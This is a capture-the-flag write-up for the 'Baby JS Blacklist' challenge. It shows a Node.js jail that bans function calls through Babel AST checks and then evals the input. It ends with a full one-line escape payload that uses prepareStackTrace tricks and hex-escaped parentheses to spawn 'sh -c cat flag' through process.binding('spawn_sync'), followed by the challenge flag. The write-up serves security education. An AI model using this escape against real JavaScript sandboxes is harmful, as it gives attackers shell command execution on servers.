

# Baby JS Blacklist
> I hate functions. I hate them so much, that I made it so that you can never call them!

> Note: Solving this challenge will unlock another challenge, "JS Blacklist".

## About the Challenge
We got a server to connect and also the source code. Here is the content of `chal.js`:

```javascript
import * as parser from "@babel/parser";
import _traverse from "@babel/traverse";
import _generate from "@babel/generator";
const traverse = _traverse.default;
const generate = _generate.default;
import readline from "readline";

class Jail {
  constructor() {
    this.rl = readline.createInterface({
      input: process.stdin,
      output: process.stdout,
    });
    this.loopInput();
  }

  async loopInput() {
    while (true) {
      const input = await this.promptForInput();
      this.processInput(input);
    }
  }

  promptForInput() {
    return new Promise((resolve) => {
      this.rl.question("Enter JavaScript code (one line): ", resolve);
    });
  }

  processInput(input) {
    try {
      const ast = this.parseCodeToAST(input);
      const isSafe = this.checkSafe(ast);

      if (!isSafe) {
        throw new Error("Unsafe code detected!");
      }
      const output = this.generateCodeFromAST(ast, input);
      this.evaluateCode(output);
    } catch (error) {
      console.log("Error:", error.message);
    }
  }

  parseCodeToAST(code) {
    return parser.parse(code, {
      sourceType: "module",
      plugins: [],
    });
  }

  checkSafe(ast) {
    return this.noCallExpressions(ast);
  }

  noCallExpressions(ast) {
    let hasCallExpression = false;

    traverse(ast, {
      CallExpression(path) {
        hasCallExpression = true;
        path.stop();
      },
    });

    return !hasCallExpression;
  }

  generateCodeFromAST(ast, originalCode) {
    return generate(ast, {}, originalCode);
  }

  evaluateCode({ code }) {
    try {
      console.log(eval(code));
    } catch (error) {
      console.log("Error evaluating code:", error.message);
    }
  }
}

new Jail();
```

This is a simple JavaScript program that creates a basic interactive environment. It continuously takes user input (JavaScript code) through the console, checks if the input is safe (doesn't contain function calls), converts the input into an Abstract Syntax Tree (AST), generates code from the AST, and then evaluates and prints the result. The goal is to prevent potentially unsafe code (with function calls) from being executed. The program uses the Babel library for parsing, traversing, and generating JavaScript code.



## How to Solve?
Im using a solver from TSGCTF 2023 - Functionless (You can check the solver [here](https://gist.github.com/arkark/a31f57c271e4aca4516c5a7072845aca)) but I modifed the code. Instead of calling `process.mainModule.require` function, I changed it by calling `process.binding`. Anyway here is the final payload I used to execute `cat` command to read flag file

```
globalThis.constructor.constructor.prototype.toString = globalThis.constructor.constructor.prototype.call; Error.stackTraceLimit = 0; globalThis.constructor.prototype.prepareStackTrace = globalThis.constructor.constructor; const err = new Error; err.name = "x = \x28\x28\x29 => { console.log\x28this.constructor.constructor\x28`let args = {\"args\":[\"sh\", \"-c\", \"cat flag\"],\"file\":\"sh\",\"stdio\":[{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true},{\"type\":\"pipe\",\"readable\":true,\"writable\":true}]}; return process.binding\x28'spawn_sync'\x29.spawn\x28args\x29.output[1].toString\x28\x29`\x29\x28\x29\x29; }\x29\x28\x29"; err
```


## Flag

```
uoftctf{b4by_j4v4scr1p7_gr3w_up_4nd_b3c4m3_4_h4ck3r}
```